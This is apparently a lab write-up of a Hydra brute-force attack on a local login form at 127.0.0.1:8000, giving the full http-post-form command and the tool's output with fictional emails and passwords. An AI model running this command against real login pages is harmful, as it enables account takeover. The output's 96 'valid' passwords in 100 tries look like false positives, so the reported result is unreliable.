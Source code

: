 # Hydra Attack

### Command
I used following command to attack the webpage: 
hydra -L user.txt -P password.txt 127.0.0.1 -s 8000 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect".
There is that one part, that made it possible for me to do it and it was: -s 8000.
I was using first 127.0.0.1:8000, but it did not work for me.

### Output of the Hydra Attack

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-18 13:50:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking http-post-form://127.0.0.1:8000/login:username=^USER^&password=^PASS^:F=incorrect
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: snacks4scooby
1 of 1 target successfully completed, 96 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-18 13:50:51

